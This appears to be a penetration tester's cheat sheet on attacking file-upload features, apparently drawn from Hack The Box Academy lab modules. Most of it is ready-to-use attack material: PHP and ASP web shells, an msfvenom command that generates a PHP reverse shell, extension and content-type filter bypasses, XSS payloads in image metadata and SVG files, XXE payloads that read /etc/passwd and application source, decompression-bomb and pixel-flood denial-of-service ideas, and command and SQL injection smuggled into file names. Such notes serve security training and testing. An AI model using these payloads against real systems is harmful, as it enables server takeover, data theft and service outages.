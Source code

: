 
# FILE UPLOAD

## Payloads
- Web-Extensions: https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt
- Basic PHP File Read: `<?php file_get_contents('/etc/passwd'); ?>	`
- Basic PHP Command Execution: `<?php system('hostname'); ?>`
- Basic PHP Web Shell: `<?php system($_REQUEST['cmd']); ?>`
- Basic ASP Web Shell: `<% eval request('cmd') %>`
- Generate PHP reverse shell: `msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php`
- Phpbash-Interactive web shell: https://github.com/Arrexel/phpbash
- Php reverse Shell: https://github.com/pentestmonkey/php-reverse-shell
- All web and Reverse Shell: https://github.com/danielmiessler/SecLists/tree/master/Web-Shells
- Bash script that generates all permutations of the file name
  ```bash
  for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
  done
  ```
---
### Blacklist Bypass

| File Extension	| Purpose |
| ---------- | ----------- |
| shell.phtml |	Uncommon Extension |
| shell.pHp	| Case Manipulation |
| [PHP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)	| List of PHP Extensions |
| [ASP Extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Extension%20ASP)	| List of ASP Extensions |
| [Web Extensions](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)	| List of Web Extensions |

### Whitelist Bypass

| File Extension	| Purpose |
| ---------- | ----------- |
| shell.jpg.php	| Double Extension |
| shell.php.jpg	| Reverse Double Extension |
| %20, %0a, %00, %0d0a, /, .\, ., … |	Character Injection - Before/After Extension |

### Content/Type Bypass
| File Extension	| Purpose |
| ---------- | ----------- |
| [Web Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)	| List of Web Content-Types |
| [Content-Types](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-all-content-types.txt)	| List of All Content-Types |
| [File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)	| List of File Signatures/Magic Bytes |
| [Magic Bytes](https://web.archive.org/web/20240522030920/https://opensource.apple.com/source/file/file-23/file/magic/magic.mime) | Link for Magicbytes |
| [File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures) | Link for File Signatures |

### Limited Uploads
| Potential Attack |	File Types |
| ---------- | ----------- |
| XSS	| HTML, JS, SVG, GIF |
| XXE/SSRF	| XML, SVG, PDF, PPT, DOC |
| DoS	| ZIP, JPG, PNG |

---



## Arbitary file uploads
https://enterprise.hackthebox.com/academy-lab/30000/2125/modules/136/1291

### Stored XSS :
- web application allows us to upload HTML files. Although HTML files won't allow us to execute code (e.g., PHP), it would still be possible to implement JavaScript code within them to carry an XSS or CSRF attack on whoever visits the uploaded HTML page. If the target sees a link from a website they trust, and the website is vulnerable to uploading HTML documents, it may be possible to trick them into visiting the link and carry the attack on their machines.
- Web applications that display an image's metadata after its upload. For such web applications, we can include an XSS payload in one of the Metadata parameters that accept raw text, like the Comment or Artist parameters, as follows:
  
    ```bash
    $ exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg
    $ exiftool HTB.jpg
    ...SNIP...
    Comment                         :  "><img src=1 onerror=alert(window.origin)>
    ```
    
    the Comment parameter was updated to our XSS payload. When the image's metadata is displayed, the XSS payload should be triggered, and the JavaScript code will be executed to carry the XSS attack.
  
- If we change the image's MIME-Type to text/html, some web applications may show it as an HTML document instead of an image, in which case the XSS payload would be triggered even if the metadata wasn't directly displayed.
  
- XSS attacks can also be carried with SVG images, along with several other attacks. Scalable Vector Graphics (SVG) images are XML-based, and they describe 2D vector graphics, which the browser renders into an image. For this reason, we can modify their XML data to include an XSS payload.
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
    <svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
        <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
        <script type="text/javascript">alert(window.origin);</script>
    </svg>
    ```
    Once we upload the image to the web application, the XSS payload will be triggered whenever the image is displayed.

### XEE:

- With SVG images, we can also include malicious XML data to leak the source code of the web application, and other internal documents within the server.
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
  <svg>&xxe;</svg>
  ```
  Once the above SVG image is uploaded and viewed, the XML document would get processed, and we should get the info of (/etc/passwd) printed on the page or shown in the page source.

- To use XXE to read source code in PHP web applications
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
  <svg>&xxe;</svg>
  ```
  Once the SVG image is displayed, we should get the base64 encoded content of index.php, which we can decode to read the source code.

- Using XML data is not unique to SVG images, as it is also utilized by many types of documents, like PDF, Word Documents, PowerPoint Documents, among many others. All of these documents include XML data within them to specify their format and structure. Suppose a web application used a document viewer that is vulnerable to XXE and allowed uploading any of these documents. In that case, we may also modify their XML data to include the malicious XXE elements, and we would be able to carry a blind XXE attack on the back-end web server.
- Another similar attack that is also achievable through these file types is an SSRF attack. We may utilize the XXE vulnerability to enumerate the internally available services or even call private APIs to perform private actions. For more about SSRF, you may refer to the Server-side Attacks module.

### DoS
- **Decompression Bomb** : If a web application automatically unzips a ZIP archive, it is possible to upload a malicious archive containing nested ZIP archives within it, which can eventually lead to many Petabytes of data, resulting in a crash on the back-end server.
- **Pixel Flood** : We can create any JPG image file with any image size (e.g. 500x500), and then manually modify its compression data to say it has a size of (0xffff x 0xffff), which results in an image with a perceived size of 4 Gigapixels. When the web application attempts to display the image, it will attempt to allocate all of its memory to this image, resulting in a crash on the back-end server.
- If the upload function is vulnerable to directory traversal, we may also attempt uploading files to a different directory (e.g. ../../../etc/passwd), which may also cause the server to crash. 

## Other 
https://enterprise.hackthebox.com/academy-lab/30000/2125/modules/136/1292

### Injection
- OS Command in file names:
  - ```file$(whoami).jpg```
  - ```file`whoami`.jpg```
  - ```file.jpg||whoami```
- XSS PAyload:
  - ```<script>alert(window.origin);</script>```
- SQL Query:
    - ```file';select+sleep(5);--.jpg```
 
### Upload Directory Disclosure
- fuzzing to look for the uploads directory or even use other vulnerabilities (e.g., LFI/XXE) to find where the uploaded files are by reading the web applications source code
- Error Message
  - uploading a file with a name that already exists
  - sending two identical requests simultaneously
  - uploading a file with an overly long name (e.g., 5,000 characters)
- Windows-Specific techniques
  - attack is using reserved characters, such as (|, <, >, *, or ?), which are usually reserved for special uses like wildcards.
  - Windows reserved names for the uploaded file name, like (CON, COM1, LPT1, or NUL), which may also cause an error as the web application will not be allowed to write a file with this name.
  - utilize the Windows 8.3 Filename Convention to overwrite existing files or refer to files that do not exist
  - file called (hackthebox.txt) we can use (HAC\~1.TXT) or (HAC\~2.TXT), where the digit represents the order of the matching files that start with (HAC). As Windows still supports this convention, we can write a file called (e.g. WEB~.CONF) to overwrite the web.conf file.

    
